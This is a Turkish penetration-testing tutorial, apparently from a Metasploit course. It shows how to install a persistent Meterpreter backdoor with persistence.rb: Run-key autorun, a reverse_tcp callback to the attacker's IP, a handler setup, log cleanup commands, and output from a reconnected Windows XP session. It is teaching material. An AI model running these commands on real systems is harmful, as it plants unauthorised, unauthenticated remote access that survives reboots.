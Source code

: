```yaml
---
draft: false
title: MSF Meterpreter Kalıcı Backdoor
linkTitle:  Kalıcı Backdoor
translationKey: msf-meterpreter-persistent-backdoor
date: 2017-06-15T13:57:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için kullanabileceğiniz bir diğer yöntem de persistence.rb script kodunu kullanmaktır.
url: /tr/msf-meterpreter-kalici-backdoor/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
weight: 400
---
```

## Persistence.rb

Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de `persistence.rb` script kodunu kullanmaktır.

Bu yöntem sayesinde, hedef bilgisayar güncellense bile tekrar bağlanma imkanınız bulunmaktadır. Ayrıca, hedef sistemin tekrar başlatılması da bağlantı yapmayı etkilemeyecektir.

Bir önceki konuda, `metsvc` için yaptığımız uyarıyı burada da tekrarlayalım. `persistence.rb` arka kapısı, bağlantı için herhangi bir oturum bilgisi kullanmaz. Bu açıklığı keşfeden herkes bağlantı sağlayabilir.

Hedef sistemde meterpreter oturum açtıktan sonra `persistence.rb` script kodunu kullanmadan önce yardım bilgilerini görüntüleyelim ve bize hangi imkanları sağladığını görelim.

```bash
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A   Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S   Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U   Automatically start the agent when the User logs on
    -X   Automatically start the agent when the system boots
    -h   This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```

Aşağıdaki `persistence -U -i 5 -p 443 -r 192.168.1.71` komutu hangi işlemleri yapıyor?

`-U`, bir kullanıcı oturum açtığında bizim bilgisayarımıza otomatik bağlantı yapılmasını sağlar.

`-i 5` Karşe taraftaki `persistence.rb` script kodu her 5 saniyede bir bize bağlanmaya çalışır.

`-p 443` bizim dinleme yapan bilgisayarımızın dinleme yaptığı port numarasıdır.

`-r 192.168.1.71` bizim dinleme yapan bilgisayarımızın IP numarasıdır.

```bash
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
> Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
> Persistent agent script is 613976 bytes long
> Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
> Agent executed with PID 492
> Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```

Verdiğimiz komut sonucunda başlatılan script, çıktılarda da görüleceği gibi işimiz tamamlandığında log temizleme işleminin nasıl yapılabileceğini de gösteriyor.

```bash
multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
```

Scriptin çalışıp çalışmadığını ve otomatik bağlantı yapıp yapmadığını, hedef bilgisayarı tekrar başlatarak anlayabiliriz. Hedef bilgisayarı yeniden başlatalım.

```bash
meterpreter > reboot
Rebooting...
meterpreter > exit

> Meterpreter session 3 closed.  Reason: User exit
```

Dinleyici `exploit/multi/handler` modülünü tekrar başlatalım.

```bash
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

> Started reverse handler on 192.168.1.71:443
> Starting the payload handler...
```

Hedef bilgisayar tekrar başladığında, oturum açılır açılmaz yerel bilgisayara bağlantı, aşağıda görüldüğü gibi tekrar sağlanacaktır.

```bash
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 5 opened (192.168.1.71:443 -> 192.168.1.161:1045) at 2010-08-21 12:31:42 -0600

meterpreter > sysinfo
Computer: XEN-XP-SP2-BARE
OS      : Windows XP (Build 2600, Service Pack 2).
Arch    : x86
Language: en_US
meterpreter >
```
